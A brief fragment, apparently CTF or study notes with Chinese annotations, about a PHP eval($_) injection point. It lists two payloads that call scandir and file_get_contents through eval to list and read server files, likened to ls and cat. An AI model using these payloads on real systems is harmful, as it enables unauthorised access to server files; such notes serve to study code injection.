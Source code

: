 1. eval($_) </br>
```
$_ = "var_dump(scandir(getcwd()));"  相當於 ls
$_ = var_dump(file_get_contents(scandir(getcwd())[<fileno>]));  相當於 cat 
```
